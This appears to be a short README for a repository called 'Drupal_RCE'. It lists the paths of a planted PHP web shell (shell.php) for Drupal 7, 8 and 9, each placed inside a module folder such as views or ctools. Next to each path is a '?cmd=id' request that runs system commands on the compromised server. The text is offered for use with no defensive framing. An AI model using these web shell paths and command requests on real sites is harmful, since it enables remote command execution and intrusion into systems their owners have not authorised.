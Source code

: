 # Drupal_RCE
Drupal 7:
domain/sites/all/modules/views-7.x-3.24/views/shell.php?cmd=id
Drupal 8:
domain/modules/drupal_rce/drupal_rce/shell.php?cmd=id
Drupal 9:
domain/modules/ctools-8.x-3.4/ctools/shell.php?cmd=id
